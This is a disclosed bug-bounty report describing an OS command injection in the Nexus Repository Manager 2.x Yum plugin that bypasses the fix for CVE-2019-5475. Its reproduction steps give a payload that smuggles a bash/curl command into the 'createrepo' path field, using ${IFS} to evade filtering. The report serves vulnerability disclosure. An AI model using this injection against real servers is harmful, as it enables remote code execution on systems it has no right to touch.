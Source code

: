 # OS Command Injection in Nexus Repository Manager 2.x(bypass CVE-2019-5475)

## Report Details
- **Report ID**: 688270
- **URL**: https://hackerone.com/reports/688270
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-09-05T03:25:50.622Z
- **Disclosed**: 2019-10-29T11:03:48.386Z

## Reporter
- **Username**: badcode_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: central-security-project

## Vulnerability Information
## OS Command Injection in Nexus Repository Manager 2.x(bypass CVE-2019-5475)

# Maven artifact

**groupId:** org.sonatype.nexus.plugins
**artifactId:** nexus-yum-repository-plugin
**version:** 2.14.14-01

# Vulnerability

## Vulnerability Description

The Nexus Yum Repository Plugin is vulnerable to Remote Code Execution. All instances using CommandLineExecutor.java with user-supplied data is vulnerable, such as the Yum Configuration Capability.

## Additional Details

Take a look at the patch for CVE-2019-5475

 https://github.com/sonatype/nexus-public/commit/7b9939e71693422d3e09adc3744fa2e9b3a62a63#diff-4ab0523de106ac7a38808f0231fc8a23R84

![](1.png)

The `getCleanCommand` method is not completely filtered and can still be bypassed.



## Steps To Reproduce:

1. Navigate to "Capabilities" in Nexus Repository Manager.

2. Edit or create a new Yum: Configuration capability

3. Set path of "createrepo" or "mergerepo" to an OS command (e.g. `/bin/bash -c curl${IFS}http://192.168.88.1:8000/ || /createrepo`)

   

![](2.png)



## Supporting Material/References:

- Ubuntu
- Sonatype Nexus Repository Manager 2.14.14-01
- Java 8

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

An authenticated user with sufficient privileges in a Nexus Repository Manager installation can exploit this to execute code on the underlying operating system.

## Impact

An authenticated user with sufficient privileges in a Nexus Repository Manager installation can exploit this to execute code on the underlying operating system.

## Attachments
- 2.png
- 1.png
